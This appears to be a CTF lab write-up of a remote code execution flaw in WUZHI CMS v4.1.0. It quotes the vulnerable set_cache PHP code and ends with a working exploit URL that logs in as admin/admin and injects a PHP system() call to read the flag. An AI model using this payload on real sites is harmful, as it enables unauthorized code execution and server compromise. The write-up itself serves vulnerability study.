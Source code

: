## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2020-20124)
## 2. 漏洞分析
[Remote Code Execution Vulnerability In WUZHI CMS v4.1.0 · Issue #188 · wuzhicms/wuzhicms · GitHub](https://github.com/wuzhicms/wuzhicms/issues/188)
In the set_cache method of the \coreframe\app\core\libs\function\common.func.php file, when $data is not of the array type, $data will be written directly to the php file.

```php
function set_cache($filename, $data, $dir = '_cache_'){
	static $_dirs;
	if ($dir == '') return FALSE;
	if (!preg_match('/([a-z0-9_]+)/i', $filename)) return FALSE;
	$cache_path = CACHE_ROOT . $dir . '/';
	if (!isset($_dirs[$filename . $dir])) {
		if (!is_dir($cache_path)) {
			mkdir($cache_path, 0777, true);
		}
		$_dirs[$filename . $dir] = 1;
	}

	$filename = $cache_path . $filename . '.' . CACHE_EXT . '.php';
	if (is_array($data)) {
		$data = '<?php' . "\r\n return " . array2string($data) . '?>';
	}
	file_put_contents($filename, $data);
}
```

The set_cache method is called in the set method of the \coreframe\app\attachment\admin\index.php file, and $GLOBALS['setting'] has not been filtered，so anything can be written to the php file.

```php
    public function set()
    {
        if (isset($GLOBALS['submit'])) {
            set_cache(M, $GLOBALS['setting']);
            MSG(L('operation_success'), HTTP_REFERER, 3000);
        } else {
            $show_dialog = 1;
            load_class('form');
            $setting = &$this->_cache;
            if(!isset($setting['show_mode'])) {
				$setting = array('show_mode'=>2,'watermark_enable'=>1,'watermark_pos'=>0,'watermark_text'=>'www.wuzhicms.com');
				set_cache(M, $setting);
			}
            include $this->template('set', M);
        }
    }
```

Finally, on line 21 of \coreframe\app\attachment\admin\index.php, a php file that can write arbitrary content will be loaded.  
`$this->_cache = get_cache(M);`
## 3. 漏洞复现
弱口令登录 admin/admin
burp suite 抓包重放读取 flag【由于缓存原因可多次尝试】
`http://eci-2…………9.cloudeci1.ichunqiu.com/www/index.php?m=attachment&f=index&v=set&_su=wuzhicms&submit=1&setting=<?php system("cat /flag");?>`

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310031237875.png)
